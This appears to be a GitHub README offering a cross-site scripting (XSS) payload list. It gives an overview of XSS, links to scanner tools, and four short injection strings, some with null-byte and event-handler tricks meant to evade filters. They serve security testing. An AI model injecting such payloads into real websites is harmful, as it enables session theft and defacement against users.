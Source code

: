 ### Cross Site Scripting ( XSS ) Payload List
### Created By Anonre

##### Overview : 

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. For more details on the different types of XSS flaws, see: [Types of Cross-Site Scripting](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting).

#### XSS Vulneability Scanner Tool's :

* [XSStrike](https://github.com/UltimateHackers/XSStrike)

* [BruteXSS Terminal](https://github.com/shawarkhanethicalhacker/BruteXSS)

* [BruteXSS GUI](https://github.com/rajeshmajumdar/BruteXSS)

* [XSS Scanner Online](http://xss-scanner.com/)

* [XSSer](https://tools.kali.org/web-applications/xsser)

* [xsscrapy](https://github.com/DanMcInerney/xsscrapy)


#### XSS Payload List :

```
---------------------------------------------------------------------------------
<!-- Project Name  : Cross Site Scripting ( XSS ) Vulnerability Payload List -->
<!--        Author : Joel Indra -->
<!--      Linkedin : https://www.linkedin.com/in/joelindra/ -->
<!--        GitHub : https://github.com/anonre/ -->
<!--       Twitter : https://twitter.com/joelindra -->
---------------------------------------------------------------------------------
---------------------------------------------------------------------------------

';alert('xss')//
"><body %00 onControl hello onmouseleave=confirm(domain) x>XSS
"><html><select %00 onControl onpointerenter=prompt(domain) hello>
"><input %00 onControl hello oninput=confirm(domain) x>

